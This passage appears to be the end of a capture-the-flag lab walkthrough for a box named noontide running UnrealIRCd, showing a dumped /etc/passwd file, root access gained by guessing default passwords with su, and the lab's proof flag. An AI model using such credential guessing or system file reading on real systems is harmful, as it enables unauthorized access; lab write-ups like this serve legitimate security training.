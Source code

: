 root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
server:x:1000:1000:server,,,:/home/server:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

</details>

Nope

8) Trying default passwords on user `root` out of desperation:

```
server@noontide:~/irc/Unreal3.2$ su root
su root
Password: toor

su: Authentication failure
server@noontide:~/irc/Unreal3.2$ su root
su root
Password: password

su: Authentication failure
server@noontide:~/irc/Unreal3.2$ su root
su root
Password: root

root@noontide:/home/server/irc/Unreal3.2# whoami
whoami
root
```

9) We get our flag from the root dir

```
root@noontide:/home/server/irc/Unreal3.2# ls -la /root | grep -e proof -e txt
ls -la /root | grep -e proof -e txt
-rw-------  1 root root   33 Mar  3 10:56 proof.txt
root@noontide:/home/server/irc/Unreal3.2# cat /root/proof.txt
cat /root/proof.txt
72cd8304b63da9db8b4c00a61359ee68
```
